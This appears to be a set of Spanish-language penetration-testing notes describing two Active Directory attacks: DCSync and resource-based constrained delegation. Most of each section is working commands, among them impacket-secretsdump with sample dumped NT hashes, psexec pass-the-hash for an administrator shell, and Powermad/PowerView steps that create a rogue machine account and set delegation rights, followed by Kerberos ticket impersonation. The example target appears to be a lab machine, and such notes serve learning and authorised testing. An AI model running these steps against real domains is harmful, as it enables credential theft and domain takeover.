 ---- 

## DCSync attack:

##### Permite al atacante simular el comportamiento del Domain Controller 
##### ( #DC ) y recuperar datos de conraseñas a través de replicación de domino. 

### Proceso: 

- ##### El atacante descubre el domain controller para solicitar la replicación.
- ##### El atacante solicita la replicación de usuarios mediante #GetNCChangesolic 
- ##### El DC retorna la respuesta, inluyendo los hashes de las contraseñas de los usuarios. 

##### Muchas veces la infraestructura de las organizaciones necesita más de un #DC, para el #AD. Para mantener la choerencia de un entorno con más de un DC , es necesario que los objetos de AD se repliquen a través de esos DC. 
##### La mayoria de las tareas relacionadas con la replicación se especifican en el Protocolo remoto de Serivico de replicación de directorios. 

## Explotación 

##### Cuando un usuario posee los permisos de GetChanges y GetChangesAll podrá realizar una replicación de dominio, de esta manera podemos usar herramientas como impacket para obtener los hashes de las contraseñas de los usuarios...

```shell
impacket-secretsdump {domain}/{user}@{target_ip}

# Ejemplo 
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/userx@10.10.10.175
# Esto realizara la replicación y nos arrojara algo como lo siguiente: 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
# En donde podemos ver los hashes de las contraseñas de los usuarios, por ejemplo, el hash de la password de el usuario Administrator es "823452073d75b9d1cf70ebdf86c7f98e", 
```

##### Teniendo el hash de la contraseña del usuario, podemos utlizar la herramienta "impacket-psexec" (Herramienta de línea de comandos que permite a los admins de sistemas ejecutar comandos), para solicitar un consola interactiva:

```shell
impacket-psexec {domain}/{user}@{target_ip} cmd.exe --hashes :{hash}
# Esto nos arrojaria una consola interactiva con permisos de administrador

# Ejemplo 
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe --hashes :823452073d75b9d1cf70ebdf86c7f98e

```

---

## Resource-based Constraint Delegation:

##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

### Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```